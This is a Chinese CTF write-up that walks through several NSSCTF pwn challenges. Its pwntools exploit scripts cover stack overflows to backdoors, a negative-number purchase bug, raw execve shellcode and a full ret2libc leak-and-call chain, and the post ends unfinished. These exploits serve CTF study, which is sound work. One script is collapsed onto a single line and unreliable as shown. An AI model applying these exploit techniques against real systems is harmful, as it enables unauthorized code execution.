



## 前言

之前学习过一段时间Pwn，后面就丢掉了，再重新回来补一补

## 签到

checksec检查一下


用64位IDA打开


简单的栈溢出，backdoor的位置直接给了


写脚本如下，buf的长度就只有48，加上8位的指针，达到backdoor的位置

```
from pwn import *

io=remote("node4.anna.nssctf.cn",28296)
target=0x000000000040123A
payload=b'a'*(48+8)+p64(target)

io.sendline(payload)
io.interactive()
```


## guess me

题目没有附件，先直接连接看看



是一个简单的猜数字，让AI跑一个二分法的脚本即可，当然也可以手注，这里应该是考察pwntools的使用

```
from pwn import *

# 连接到远程服务
io = remote("node4.anna.nssctf.cn", 28024)

# 读取初始行

print(io.recvuntil(b':'))

# 二分法查找 0 到 100 之间的数字
low, high = 0, 100

while low <= high:
    mid = (low + high) // 2
    io.sendline(str(mid).encode())  # 发送猜测的数字
    response = io.recvline()         # 获取服务器的响应

    # 打印当前猜测及其响应
    print(f"Guess: {mid}, Response: {response.decode().strip()}")

    # 检查响应并调整搜索范围
    if b'Bingo!' in response:  # 检查是否猜对了
        io.interactive()
        break
    elif b'too big' in response:
        high = mid - 1  # 调整上界
    elif b'too small' in response:
        low = mid + 1   # 调整下界
    else:
        print("Unexpected response:", response.decode().strip())
        break
```


## buy

checksec检查


进入IDA分析，要满足key的条件才能进入后门函数


在food函数中，存在key的赋值语句



不过仔细看，money是由v1来决定，而v1不能大于3，把v1设置为一个负数就能获取到money

进入door函数后就是一个简单的栈溢出


在mygift里找到/bin/sh的地址


写脚本

```
from pwn import *

io = remote('node4.anna.nssctf.cn', 28469)

io.sendline(b'1')
io.sendline(b'1')
io.sendline(b'-100')
io.sendline(b'2')
io.sendline(b'2')
io.sendline(b'1')

target=0x000000000040154C

payload=b'a'*(10+8)+p64(target)

io.sendline(payload)
io.interactive()
```

拿到flag


## Shellcode

checksec


直接把shellcode发过去就行了

```
from pwn import *
context(os="linux",arch='amd64',log_level='debug')
io=remote('node4.anna.nssctf.cn', 28409)

payload=b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
io.sendline(payload)
io.interactive()
```


## ezlibc

找了好久找到一篇讲ret2libc相对清晰的文章

- [Pwn入门笔记（三）函数细节\_pwn p64-CSDN博客](https://blog.csdn.net/qq_33590156/article/details/110124948)

checksec，附件中给了libc文件


进入IDA查看伪代码



查看不出来具体多少个填充位

使用pwndbg对附件进行调试，可以看到有报错地址，使用cyclic进行计算，得到填充位是20


由于题目已经给出了lib.so文件，因此无需计算偏移量

这里写代码就详细一点

首先是引用源文件

```
elf = ELF('./ezlibc') #加载源文件
libc = ELF('./libc-2.31.so') #加载libc.so
```

然后进行数据发送

```
io.sendline(b'a'*20+p32(write_plt_addr)+p32(0x80491B6)+p32(1)+p32(write_got_addr)+p32(4))
```

对上面这个paylaod的解释：20个a溢出后进入write函数，0x80491B6是dofunc函数的地址，也是write函数的返回地址。后面三个参数对应的是：1为write的"写模式"，elf.got.write是打印字符串的地址，4是指字符串的长度。

为什么write函数的地址要返回到dofunc的开始呢？因为要制造一个循环，第一次dofunc的时候是不知道write函数的地址的，将其打印出来后再进行dofunc函数操作，就可以利用计算偏移量来进行构造payload。（实际上并不一定要是dofunc，只需要在溢出点前面就行）


可以看到dofunc的地址就在0x80491B6

简单测试一下拿到write的地址的过程

```
from pwn import *context(arch='i386', os='linux',log_level="debug")io=process('./ezlibc')elf=ELF('./ezlibc')libc=ELF('./libc-2.31.so')write_plt_addr = elf.plt["write"]write_got_addr = elf.got["write"]main_addr = 0x80491B6io.recvuntil(b"Hello, there is a ez libc test!!!input:")io.sendline(b'a'*20+p32(write_plt_addr)+p32(0x80491B6)+p32(1)+p32(write_got_addr)+p32(4))io.recvuntil(b'byebye')write_addr=u32(io.recv(4))print(hex(write_addr))io.interactive()
```


可以看到成功获取到write的地址，接下来就是进行计算偏移量

```
base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset
```

然后的话就是进行发送payload

```
io.sendline(b'a'*20+p32(system_addr)+p32(1)+p32(binsh_addr))=
```

格式是和最开始的一样，这里1是system函数的返回地址，不重要，binsh是函数的参数

完整的代码如下

```
from pwn import *

context(arch='i386', os='linux',log_level="debug")

#io=process('./ezlibc')
io=remote('node4.anna.nssctf.cn', 28566)
elf=ELF('./ezlibc')
libc=ELF('./libc-2.31.so')

write_plt_addr = elf.plt["write"]
write_got_addr = elf.got["write"]
main_addr = 0x80491B6

io.recvuntil(b"Hello, there is a ez libc test!!!input:")
io.sendline(b'a'*20+p32(write_plt_addr)+p32(0x80491B6)+p32(1)+p32(write_got_addr)+p32(4))
io.recvuntil(b'byebye')
write_addr=u32(io.recv(4))

system_offset = libc.symbols['system']
binsh_offset = next(libc.search('/bin/sh'))
write_offset = libc.symbols['write']

base_addr = write_addr - write_offset
system_addr = base_addr + system_offset
binsh_addr = base_addr + binsh_offset

io.recvuntil(b"Hello, there is a ez libc test!!!input:")
io.sendline(b'a'*20+p32(system_addr)+p32(1)+p32(binsh_addr))

io.interactive()
```


本题是给出了libc.so文件就可以直接从里面提取，如果没有的话需要使用LibcSearcher来进行搜索

## 神奇的strlen

checksec查看，题目提供了libcso文件


查看IDA伪代码，应该是ret2libc的64位put类型题目


这里的strlen函数遇到'\\x00'这个终止符的时候会停止计数，从而绕过长度判断

- [PWN PWN PWN !!! 技巧 (1)\_pwn传参和接收问题-CSDN博客](https://blog.csdn.net/Xzzzz911/article/details/133610804?spm=1001.2014.3001.5502)

待续。。。。
